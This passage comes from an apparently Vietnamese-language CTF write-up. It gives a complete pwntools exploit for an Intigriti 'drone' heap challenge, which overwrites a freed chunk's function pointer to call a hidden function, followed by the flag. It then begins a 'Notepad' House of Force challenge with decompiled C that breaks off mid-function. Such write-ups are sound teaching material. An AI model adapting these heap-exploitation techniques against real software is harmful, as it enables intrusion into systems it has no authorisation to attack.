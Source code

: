 script : 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./drone_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

context.binary = exe

#p = process()
p = remote('uap.ctf.intigriti.io', 1340)
input()
p.sendline(b'1')
#p.sendlineafter(b'Choose an option: ',b'1')
p.sendline(b'2')

#p.sendlineafter(b'Choose an option: ',b'2')
p.sendline(b'1')

p.sendline(b'4')
#p.sendlineafter(b'Enter drone ID to retire: ',b'1')
#p.sendlineafter(b'Enter drone ID to retire: ',b'4')
#p.sendlineafter(b'Enter the drone route data: ',b'a'*24 + p64(exe.sym.print_drone_manual))
p.sendline(b'a'*16+p64(exe.sym.print_drone_manual))

p.sendlineafter(b'Choose an option: ',b'3')
p.sendlineafter(b'Enter drone ID to start its route: ',b'1')



p.interactive()
```

`INTIGRITI{un1d3n71f13d_fly1n6_vuln3r4b1l17y}`



## Notepad



tiếp tục là 1 bài heap , sau khi làm xong thì mình thấy flag ghi là House of Force :v , may mắn là bài này có thể làm theo nhiều cách 


reverse : 


```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setup(argc, argv, envp);
  banner();
  puts("Welcome to the notepad service!");
  printf("Here a gift: %p\n", main);
  while ( 1 )
  {
    menu();
    __isoc99_scanf("%d", &v4);
    switch ( v4 )
```